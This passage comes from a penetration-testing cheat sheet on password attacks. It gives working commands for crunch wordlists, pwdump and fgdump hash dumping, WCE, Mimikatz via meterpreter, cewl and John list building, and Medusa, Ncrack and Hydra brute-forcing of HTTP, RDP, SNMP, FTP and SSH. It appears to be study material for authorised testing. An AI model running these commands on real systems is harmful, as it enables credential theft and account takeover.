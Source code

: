         *   `crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha`

        *   `crunch 8 8 -t ,@@^^%%%`

    *   Pwdump and Fgdump - Security Accounts Manager (SAM)

        *   `pwdump.exe` - attempts to extract password hashes

        *   `fgdump.exe` - attempts to kill local antiviruses before attempting to dump the password hashes and cached credentials.

    *   Windows Credential Editor (WCE)

        *   allows one to perform several attacks to obtain clear text passwords and hashes. Usage: `wce -w`
    *   Mimikatz

        *   extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets  
            [_https://github.com/gentilkiwi/mimikatz_](http://web.archive.org/web/20171113221652/https://github.com/gentilkiwi/mimikatz) From metasploit meterpreter (must have System level access):

                meterpreter> load mimikatz
                meterpreter> help mimikatz
                meterpreter> msv
                meterpreter> kerberos
                meterpreter> mimikatz_command -f samdump::hashes
                meterpreter> mimikatz_command -f sekurlsa::searchPasswords

    *   Password Profiling

        *   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`
    *   Password Mutating

        *   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`
    *   Medusa

        *   Medusa, initiated against an htaccess protected web directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`
    *   Ncrack

        *   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`
    *   Hydra

        *   Hydra brute force against SNMP

            `hydra -P password-file.txt -v $ip snmp`

        *   Hydra FTP known user and rockyou password list

            `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

        *   Hydra SSH using list of users and passwords

            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

